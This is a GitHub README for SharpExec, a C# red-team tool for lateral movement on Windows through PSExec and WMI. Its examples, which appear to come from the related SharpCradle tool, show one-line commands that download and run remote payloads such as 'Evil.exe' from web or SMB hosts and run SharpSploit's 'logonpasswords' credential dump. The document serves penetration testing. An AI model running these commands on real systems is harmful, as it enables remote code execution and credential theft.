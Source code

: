 # SharpExec

Description
============

SharpExec is a tool written in C# and was designed to be another option for penetration testers or red teams to perform lateral movement within a MS Windows environment. It currently includes:

PSExec module - that allows you to execute a remote binary with arguments, for example, cmd.exe as NT Authority/System
WMI module - 

Contact at:
- Twitter: @anthemtotheego

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/sharpexec.PNG?raw=true "SharpExec")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio and compile (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, again make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://IP/Evil.exe <arguments to pass>```

```SharpCradle.exe -w https://IP/SharpSploitConsole_x64.exe logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\Evil.exe <arguments to pass>```

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\Evil.exe <arguements to pass>```

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

Download .NET inline project file from web:

```SharpCradle.exe -p https://192.168.1.10/EvilProject.csproj```

